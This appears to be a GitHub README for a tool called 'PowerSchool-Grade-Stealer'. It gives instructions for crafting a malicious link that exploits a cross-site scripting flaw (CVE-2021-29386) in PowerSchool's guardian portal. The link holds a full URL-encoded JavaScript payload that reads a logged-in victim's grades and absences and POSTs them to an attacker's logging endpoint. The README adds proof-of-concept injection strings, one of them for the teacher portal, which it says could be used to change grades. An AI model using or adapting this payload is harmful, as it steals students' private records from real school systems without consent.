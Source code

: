# PowerSchool-Grade-Stealer

The script in this repository just generates the link for the victim to click on, but it only works on macOS and Linux (if you remove the pbcopy command). A link can be created manually by doing the following:

1. Set up an endpoint URL that logs POST requests to it (can be set up at [Pipedream](https://pipedream.com) by creating an event source).
2. In the following text, replace the text in brackets (and the brackets themselves) with the corresponding information that is described in the brackets:

**[the base URL of the website where PowerSchool is installed]**/guardian/forms.html?sharetype=%22%3Bfunction%20makeHttpObject()%7Btry%7Breturn%20new%20XMLHttpRequest()%7Dcatch(error)%7B%7Dtry%7Breturn%20new%20ActiveXObject(%22Msxml2.XMLHTTP%22)%7Dcatch(error)%7B%7Dtry%7Breturn%20new%20ActiveXObject(%22Microsoft.XMLHTTP%22)%7Dcatch(error)%7B%7Dthrow%20new%20Error(%22Could%20not%20create%20HTTP%20request%20object.%22)%3B%7Dvar%20request%3DmakeHttpObject()%3Brequest.open(%22GET%22%2C%22[**the base URL of the website where PowerSchool is installed]**/guardian/home.html%22%2Ctrue)%3Brequest.send(null)%3Brequest.onreadystatechange%3Dfunction()%7Bif(request.readyState%3D%3D4)console.log(request.responseText)%7D%3B%0A(function()%7B%0A%20%20%20%20var%20oldLog%20%3D%20console.log%3B%0A%20%20%20%20console.log%20%3D%20function%20(message)%20%7B%0A%20%20%20%20%20%20%20%20var%20xhttp%20%3D%20new%20XMLHttpRequest()%3B%0A%20%20%20%20%20%20%20%20xhttp.open(%22POST%22%2C%20%22[**the endpoint's URL]**%22%2C%20true)%3B%0A%20%20%20%20%20%20%20%20xhttp.send(message)%3B%0A%20%20%20%20%20%20%20%20oldLog.apply(console%2C%20arguments)%3B%0A%20%20%20%20%7D%3B%0A%7D)()%3B%0Adocument.body.innerHTML%20=%20%27%27%2F%2F

The payload.js file just contains the URL decoded JavaScript code of this.

Note: This only sends the averages of each course and the absences/tardies.

# The Vulnerability

The vulnerability is present on line 1,042 in forms.html:

`sharetype = "whatever is after sharetype=",`

When quotes are passed after sharetype=, they are not escaped. So a quote may be able to close the string and then a semicolon following that quote may be able to end the whole variable assignment statement. JavaScript code can be appended afterwards and then be followed by a comment operator, "//", to make it ignore the quote and comma that follows: 

/guardian/forms.html?sharetype=";alert()//

In the source code, this appears as:

`sharetype = "";alert()//",`

This bypasses PowerSchool's cross-site scripting mitigation by not using angle brackets. The vulnerability was assigned CVE-2021-29386.

A variant of this vulnerability is also present in the teacher SIS, which can hypothetically be used to change grades, though it is harder to exploit due to the fact that it requires sending fields such as a seemingly random student ID.

Proof-of-concept:

/teachers/formbuilder/forms.html?sharetype=";alert()//
